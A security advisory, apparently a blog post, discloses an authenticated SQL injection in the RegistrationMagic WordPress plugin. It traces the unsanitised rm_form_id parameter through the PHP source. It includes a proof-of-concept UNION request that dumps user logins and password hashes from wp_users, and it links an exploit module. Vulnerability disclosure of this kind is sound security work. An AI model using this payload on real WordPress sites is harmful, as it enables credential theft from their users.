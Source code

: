 ```yaml
---
layout: single
title: RegistrationMagic - Custom Registration Forms <= 3.7.9.2 Authenticated SQL Injection
date: 2017-12-10
categories:
  - security
  - websec
  - disclosure
tags:
  - wordpress
  - registrationmagic
  - sql injection
excerpt: Due to a lack of input sanitisation, arbitrary `SELECT` statements can be executed and the results viewed in the field management page.
---
```

## Homepage
[https://wordpress.org/plugins/custom-registration-form-builder-with-submission-manager/](https://wordpress.org/plugins/custom-registration-form-builder-with-submission-manager/)

## Overview
Due to a lack of input sanitisation, arbitrary `SELECT` statements can be executed and the results viewed in the field management page.

## CVSS Score
3.0

## CVSS Vector
[(AV:N/AC:M/Au:S/C:P/I:N/A:N/E:H/RL:OF/RC:C)](https://nvd.nist.gov/vuln-metrics/cvss/v2-calculator?vector=(AV:N/AC:M/Au:S/C:P/I:N/A:N/E:H/RL:OF/RC:C))

## Versions Affected
3.7.9.2 and below

## Solution
Update to version 3.7.9.3 or higher

## Proof of Concept
```
GET /wp-admin/admin.php?page=rm_field_manage&rm_form_id=-1+union+select+ID%2C2%2C3%2Cconcat(user_login%2C0x3a%2Cuser_pass)%2Cconcat(0x54%2C0x65%2C0x78%2C0x74%2C0x62%2C0x6f%2C0x78)%2C6%2C7%2C8%2C9%2C10%2C11+from+wp_users
```

## WordPress Exploit Framework Module
[auxiliary/hash_dump/registrationmagic\_hash\_dump](https://github.com/rastating/wordpress-exploit-framework/blob/development/lib/wpxf/modules/auxiliary/hash_dump/registrationmagic_hash_dump.rb)

## Technical Overview
On line 169 of `admin/controllers/class_rm_field_controller.php`, a call is made into `get_all_form_fields`, passing in the value of the `rm_form_id` field, with no sanitisation:

```php
if (isset($request->req['rm_form_id']))
    $fields_data = $service->get_all_form_fields($request->req['rm_form_id']);
else
    die(RM_UI_Strings::get('MSG_NO_FORM_SELECTED'));
```

Once in `get_all_form_fields` (found on line 884 of `services/class_rm_services.php`), the code then calls out to `RM_DBManager::get_fields_by_form_id`, again, passing the unsanitised data into the next function:

```php
public function get_all_form_fields($form_id) {
    if ((int) $form_id)
        return RM_DBManager::get_fields_by_form_id($form_id);
    else
        return false;
}
```

Now, on line 186 of `includes/class_rm_dbmanager.php`, within the `get_fields_by_form_id` function, the unsanitised data (`$form_id`) is used in the construction of an SQL query:

```php
$results = $wpdb->get_results("SELECT * FROM `$table_name` WHERE `$foreign_key` = $form_id ORDER BY `page_no` ASC, `field_order` ASC");
```

Data from any table can now be retrieved by using a `UNION` statement in the value passed via `$form_id`. The schema for the `wp_rm_fields` table. that it selects from. contains 11 columns:

```
+-------------------------+-----------------+------+-----+---------+----------------+
| Field                   | Type            | Null | Key | Default | Extra          |
+-------------------------+-----------------+------+-----+---------+----------------+
| field_id                | int(6) unsigned | NO   | PRI | NULL    | auto_increment |
| form_id                 | int(6)          | YES  |     | NULL    |                |
| page_no                 | int(6) unsigned | NO   |     | 1       |                |
| field_label             | text            | YES  |     | NULL    |                |
| field_type              | text            | YES  |     | NULL    |                |
| field_value             | mediumtext      | YES  |     | NULL    |                |
| field_order             | int(6)          | YES  |     | NULL    |                |
| field_show_on_user_page | tinyint(1)      | YES  |     | NULL    |                |
| is_field_primary        | tinyint(1)      | NO   |     | 0       |                |
| field_is_editable       | tinyint(1)      | NO   |     | 0       |                |
| field_options           | mediumtext      | YES  |     | NULL    |                |
+-------------------------+-----------------+------+-----+---------+----------------+
```

The fourth column will be displayed in the output of the field management page, so data to be read should be placed here. In addition to this, the fifth field, `field_type`, must match one of a number of white listed values.

On lines 187-188 of `admin/controllers/class_rm_field_controller.php`, each row is processed, and the value of the `field_type` column (the fifth column), is checked against the array returned by `get_field_types`, found in `includes/class_rm_utilities.php`:

```php
public static function get_field_types($include_widgets= true) {
    $field_types = array(
        null => 'Select A Field',
        'Textbox' => 'Text',
        'Select' => 'Drop Down',
        'Radio' => 'Radio Button',
        'Textarea' => 'Textarea',
        'Checkbox' => 'Checkbox',
        'jQueryUIDate' => 'Date',
        'Email' => 'Email',
        'Number' => 'Number',
        'Country' => 'Country',
        'Timezone' => 'Timezone',
        'Terms' => 'T&C Checkbox',
        'Price' => 'Product',
        'Fname' => 'First Name',
        'Lname' => 'Last Name',
        'BInfo' => 'Biographical Info',
        'Nickname' => 'Nickname',
        'Password' => 'Password',
        'Website' => 'Website',
        'Hidden' => 'Hidden Field'
    );

    if($include_widgets){
        $field_types= array_merge($field_types,array('Timer'=>'Timer','RichText'=>'Rich Text',
                                 'Divider'=>'Divider','Spacing'=>'Spacing','HTMLP'=>'Paragraph',
                                  'HTMLH'=>'Heading','Link'=>'Link','YouTubeV'=>'YouTube Video',"Iframe"=>"Embed Iframe"));
    }

    return $field_types;
}
```

Providing the value in the fifth column matches one of these values (e.g. `concat(0x54,0x65,0x78,0x74,0x62,0x6f,0x78)`, as found in the POC), the row will be displayed as a field in the resulting markup:

![SQLi Output](/assets/images/registrationmagic-custom-registration-forms-3-7-9-2-authenticated-sql-injection/output.png)


## WPVDB-ID
[8975](https://wpvulndb.com/vulnerabilities/8975)

## Disclosure Timeline
* **2017-10-04**: Initial discovery
* **2017-12-10**: Released public disclosure
